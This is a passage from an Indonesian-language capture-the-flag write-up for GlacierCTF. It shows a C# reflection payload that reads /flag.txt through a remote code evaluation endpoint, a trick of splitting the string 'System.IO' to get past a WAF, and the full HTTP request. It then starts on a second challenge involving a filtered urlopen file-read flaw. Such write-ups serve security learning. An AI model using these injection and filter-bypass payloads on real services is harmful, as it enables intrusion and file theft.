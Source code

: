 Oke, karena kita sudah punya AssemblyQualifiedNamenya, kita bisa langsung rakit payloadnya seperti berikut:

```c#
var flag = ((string)(Type.GetType("System.IO.File, System.Private.CoreLib, Version=6.0.0.0, Culture=neutral, PublicKeyToken=7cec85d7bea7798e").GetMethod("ReadAllText", new[] { typeof(string) }).Invoke(null, new object[] { "/flag.txt" })));
```

untuk lakukan bypass pada waf `System.IO`, cukup jadikan payload seperti berikut:

```c#
var flag = ((string)(Type.GetType("System." + "IO" + ".File, System.Private.CoreLib, Version=6.0.0.0, Culture=neutral, PublicKeyToken=7cec85d7bea7798e").GetMethod("ReadAllText", new[] { typeof(string) }).Invoke(null, new object[] { "/flag.txt" })));
```

Full payload:

```http
POST /rce HTTP/2
Host: rce-as-a-service-2.ctf.glacierctf.com
Accept: */*
Content-Type: application/json
Content-Length: 312

{
    "Data": ["."],
    "Query": "(data) => data.Select((d) => ((string)(Type.GetType(\"System.\" + \"IO\" + \".File, System.Private.CoreLib, Version=6.0.0.0, Culture=neutral, PublicKeyToken=7cec85d7bea7798e\").GetMethod(\"ReadAllText\", new[] { typeof(string) }).Invoke(null, new object[] { \"/flag.txt\" }))))"
}
```

glacierctf{L1V1N_ON_TH3_3DG3}

## Glacier Top News

Pada challenge ini kita diberikan source code. Pada source code itu menggunakan python2.

`glacier_webserver/api.py`
```python
...snip...
@app.route('/api/get_resource', methods=['POST'])
def get_resource():
    url = request.json['url']

    if(Filter.isBadUrl(url)):
        return 'Illegal Url Scheme provided', 500

    content = urlopen(url)
    return content.read(), 200
...snip...
```

Jadi vulnerabilitynya adalah LFI yang terdapat di fungsi urlopen(). Tapi disini ada Filter yang menghalangi
